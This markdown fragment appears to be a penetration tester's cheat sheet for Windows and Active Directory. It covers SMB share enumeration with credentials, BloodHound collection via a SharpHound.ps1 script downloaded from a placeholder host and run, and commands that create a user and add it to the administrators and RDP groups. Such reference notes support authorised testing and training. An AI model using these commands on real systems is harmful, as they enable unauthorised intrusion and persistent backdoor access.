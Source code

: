   Connect via smbclient
```sh
smbclient //ip -U <user> -L
smbclient //<ip>>/<share> -U <domain>//<user>%<pass>  
```

  smbmap
```sh
smbmap -H <ip> -u <user> 
```

  Permission of given user on smb shares
```sh
crackmapexec smb <IP> --shares -u <user> -p '<pass>'
```

### Enumeration Through Service Powershell Scripts

Get Principal Names
[Get-SPN](https://github.com/compwiz32/PowerShell/blob/master/Get-SPN.ps1)

Get User Privileges
[Get-Privileges](#https://github.com/compwiz32/PowerShell/blob/master/Get-Privileges.ps1)

### BloodHound

kali
```sh
start neo4j - http://localhost:7474/
sudo neo4j start
```
 Windoews - Enumeration
```powershell
iwr -uri <ip>/SharpHound.ps1 -Outfile SharpHound.ps1
. .\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All,loggedon
Invoke-BloodHound -CollectionMethod All -Verbose
Invoke-BloodHound -CollectionMethod LoggedOn -Verbose
```

## Remote Access

### Remote Desktop Protocol - RDP

  Create a user  
```cmd
net user <user> <password> /add
```

  Add to local administrators group  
```cmd
net localgroup Administrators <user> /add
```

  Add to group of users who can access via RDP
```cmd
net localgroup "Remote Management Users" <user> /add
net localgroup "Remote Desktop Users" <user> /add
```
